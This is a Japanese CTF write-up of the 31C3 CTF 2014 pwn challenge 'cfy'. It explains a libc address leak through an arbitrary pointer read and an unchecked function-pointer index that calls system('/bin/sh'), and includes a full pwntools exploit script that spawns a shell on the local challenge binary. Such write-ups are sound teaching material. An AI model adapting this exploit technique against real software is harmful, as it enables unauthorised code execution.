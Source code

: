 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/02/18/31c3-ctf-2014-cfy/
date: 2016-02-18T10:32:58+09:00
tags: [ "ctf", "writeup", "pwn", "31c3-ctf" ]
---
```


# 31C3 CTF 2014: cfy

libcの特定をする必要があると知った回。(してなかった)

## [cfy](https://github.com/ctfs/write-ups-2014/tree/master/31c3-ctf-2014/pwn/cfy)

``` sh
$ file cfy
cfy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=f023c69bba5f53464912a2501e87fb098e19af5d, not stripped

$ checksec --file cfy
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   cfy

$ ./cfy
What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
0

Please enter your number: 10
dec: 16
hex: 0x10

What do you want to do?
0) parse from hex
1) parse from dec
2) parse from pointer
3) quit
3
have a nice day
```

### 攻撃

`2) parse from pointer`を選ぶと好きなアドレスを読むことができる。これにより、libcのbase addressが判明する。

`parsers`という関数ポインタの配列を持っており、与えられた入力をindexとして参照するが、indexの範囲のチェックをしていない。
大きな値を与えると別の入力である`buf`上に乗ったアドレスを`call`させられる。(しかも`buf`を引数として与えて呼び出す。)

これにより`system("/bin/sh");`を叩ける。

``` sh
$ readelf -s cfy
    59: 0000000000601080    48 OBJECT  GLOBAL DEFAULT   24 parsers
    72: 00000000006010e0  1024 OBJECT  GLOBAL DEFAULT   25 buf
    74: 000000000040080c   278 FUNC    GLOBAL DEFAULT   13 main
    75: 0000000000400785    20 FUNC    GLOBAL DEFAULT   13 from_ptr
    79: 0000000000400761    36 FUNC    GLOBAL DEFAULT   13 from_dec
    80: 000000000040073d    36 FUNC    GLOBAL DEFAULT   13 from_hex
```

### 実装

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools

elf = ELF('./cfy')
choice_call_buf = 6 # if you choose 6, it calls buf
choice_distance = 1<<4

context.log_level = 'debug'

# local
p = process('./cfy')
libc = ELF('/usr/lib/libc.so.6')

p.recvuntil('What do you want to do?\n')
p.sendline('2')
p.recvuntil('Please enter your number: ')
p.sendline(p64(elf.got['puts']))
p.recvline()
libc_base = int(p.recvline().split()[1], 16) - libc.symbols['puts']

p.recvuntil('What do you want to do?\n')
p.sendline('0')
p.recvuntil('Please enter your number: ')
p.sendline('A' * choice_distance + p64(libc_base + libc.symbols['system']))

p.recvuntil('What do you want to do?\n')
p.sendline(str(choice_call_buf + 1))
p.recvuntil('Please enter your number: ')
p.sendline('/bin/sh')

p.sendline('ls')
p.interactive()
```

---

# 31C3 CTF 2014: cfy

-   Thu Feb 18 18:50:53 JST 2016
    -   libcに関して追記
